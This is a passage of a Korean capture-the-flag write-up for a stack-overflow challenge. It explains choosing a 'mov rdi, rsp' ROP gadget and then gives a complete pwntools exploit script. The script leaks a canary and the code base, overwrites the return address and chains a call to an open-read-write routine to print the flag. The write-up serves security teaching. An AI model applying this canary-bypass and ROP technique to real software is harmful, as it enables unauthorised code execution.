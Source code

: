 그래서 찾은 가젯이 `mov rdi, rsp; ret;` 가젯이다.

- stack에 flag 문자열을 저장하고 문자열이 저장된 stack 주소를 `rdi` 에 저장한다.

```
0x00000000000012b4: mov rdi, rsp; pop r8; ret;
```

#### 3-4. Exploit Code

최종적으로 exploit flow는 다음과 같다.

- 첫 번째 입력에서 Code Section 주소 Leak 및 ret2main
- orw 함수의 주소를 구함.
- ROP를 통해 orw 함수 호출.

```python
from pwn import *
import base64

p = remote('hto2024-nlb-fa01ec5dc40a5322.elb.ap-northeast-2.amazonaws.com', 5001)
start = 0x3020

p.recvline()
p.recvline()
binary = p.recvline()
data = base64.b64decode(binary)

idx = int.from_bytes(data[0x3070:0x3071], 'big')
start = 0x3020 + idx * 8
canary = data[start:start+8]
print(canary)

payload = b'A' * 0x208
payload += canary
payload += b'B' * 8
payload += b'\xed'

p.sendafter('> ', payload)

p.recvuntil(b'B' * 8)
leak = p.recv(6) + b'\x00\x00'
leak = u64(leak)

code_base = leak - 0x13ED
popret = code_base + 0x12b4 # mov rdi, rsp; pop r8; ret;
orw = code_base + 0x124E   # orw
print(hex(code_base))

payload = b'A' * 0x208
payload += canary
payload += b'B' * 8
payload += p64(popret)
payload += b'.//flag\x00'
payload += p64(orw)
p.sendafter('> ', payload)

p.interactive()

```